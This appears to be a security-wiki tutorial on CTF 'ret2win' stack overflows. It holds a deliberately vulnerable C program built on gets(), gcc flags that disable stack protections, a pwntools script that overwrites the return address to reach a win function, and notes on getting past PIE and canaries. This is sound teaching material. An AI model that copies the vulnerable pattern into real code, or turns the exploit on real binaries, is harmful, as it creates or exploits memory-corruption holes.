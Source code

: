 # Ret2win


## Basic Information

**Ret2win** challenges are a popular category in **Capture The Flag (CTF)** competitions, particularly in tasks that involve **binary exploitation**. The goal is to exploit a vulnerability in a given binary to execute a specific, uninvoked function within the binary, often named something like `win`, `flag`, etc. This function, when executed, usually prints out a flag or a success message. The challenge typically involves overwriting the **return address** on the stack to divert execution flow to the desired function. Here's a more detailed explanation with examples:

### C Example

Consider a simple C program with a vulnerability and a `win` function that we intend to call:

```c
#include <stdio.h>
#include <string.h>

void win() {
    printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
    char buf[64];
    gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
    vulnerable_function();
    return 0;
}
```
```
To compile this program without stack protections and with **ASLR** disabled, you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
```
- `-m32`: Compile the program as a 32-bit binary (this is optional but common in CTF challenges).
- `-fno-stack-protector`: Disable protections against stack overflows.
- `-z execstack`: Allow execution of code on the stack.
- `-no-pie`: Disable Position Independent Executable to ensure that the address of the `win` function does not change.
- `-o vulnerable`: Name the output file `vulnerable`.

### Python Exploit using Pwntools

For the exploit, we'll use **pwntools**, a powerful CTF framework for writing exploits. The exploit script will create a payload to overflow the buffer and overwrite the return address with the address of the `win` function.

```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
```
To find the address of the `win` function, you can use **gdb**, **objdump**, or any other tool that allows you to inspect binary files. For instance, with `objdump`, you could use:

```sh
objdump -d vulnerable | grep win
```
```
This command will show you the assembly of the `win` function, including its starting address.

The Python script sends a carefully crafted message that, when processed by the `vulnerable_function`, overflows the buffer and overwrites the return address on the stack with the address of `win`. When `vulnerable_function` returns, instead of returning to `main` or exiting, it jumps to `win`, and the message is printed.

## Protections

- [[../../common-binary-protections-and-bypasses/pie/index.html|**PIE**]] **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded. In some cases, when the function that causes the overflow is `read` or similar, you can do a **Partial Overwrite** of 1 or 2 bytes to change the return address to be the win function. Because of how ASLR works, the last three hex nibbles are not randomized, so there is a **1/16 chance** (1 nibble) to get the correct return address.
- [[../../common-binary-protections-and-bypasses/stack-canaries/index.html|**Stack Canaries**]] should be also disabled or the compromised EIP return address won't never be followed.

## Other examples & References

- [[https://ir0nstone.gitbook.io/notes/types/stack/ret2win|https://ir0nstone.gitbook.io/notes/types/stack/ret2win]]
- [[https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html|https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html]]
  - 32bit, no ASLR
- [[https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html|https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html]]
  - 64 bits with ASLR, with a leak of the bin address
- [[https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html|https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html]]
  - 64 bits, no ASLR
- [[https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html|https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html]]
  - 32 bits, no ASLR, double small overflow, first to overflow the stack and enlarge the size of the second overflow
- [[https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html|https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html]]
  - 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
- [[https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html|https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html]]
  - 32 bit, nx, nothing else, partial overwrite of EIP (1Byte) to call the win function
- [[https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html|https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html]]
  - 32 bit, nx, nothing else, partial overwrite of EIP (1Byte) to call the win function
- [[https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html|https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html]]
  - The program is only validating the last byte of a number to check for the size of the input, therefore it's possible to add any zie as long as the last byte is inside the allowed range. Then, the input creates a buffer overflow exploited with a ret2win.
- [[https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/|https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/]]
  - 64 bit, relro, no canary, nx, pie. Partial overwrite to call the win function (ret2win)
- [[https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/|https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/]]
  - arm64, PIE, it gives a PIE leak the win function is actually 2 functions so ROP gadget that calls 2 functions
- [[https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/|https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/]]
  - ARM64, off-by-one to call a win function

## ARM64 Example

[[ret2win-arm64.md]]



